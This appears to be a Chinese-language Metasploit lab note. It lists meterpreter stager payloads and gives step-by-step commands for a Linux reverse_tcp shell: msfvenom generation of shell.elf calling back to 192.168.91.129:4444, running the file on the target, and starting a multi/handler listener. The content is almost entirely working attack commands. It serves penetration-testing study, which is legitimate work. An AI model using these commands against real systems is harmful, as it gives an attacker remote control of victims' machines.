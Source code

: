 
---

## MSF 实验笔记

### Payload

#### Stager中几种常见的payload
```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```

### reverse_tcp  
> 基于TCP的反向链接shell。

  1. linux
       1.  CLI下生成payload
       ```shell
      msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.91.129 lport=4444  -f elf -o shell.elf
      ```
      2. 或者在MSF下生成一个shell
        ```         use payload/linux/x86/meterpreter/reverse_tcp 设置Option
         set lhost 自己ip
         set lport 自己端口
         generate -f elf -o /shell.elf     # -o出文件到指定目录
        ```
      3. 在目标靶机上执行文件
        ```
        chmod 777 shell.elf
        ./shell.elf
        ```
      4. msf下开启`handler`监听.
        ```
        msf  >  use exploit/multi/handler
        msf  >  set payload linux/x86/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
        ```
        ![](img/1.png)
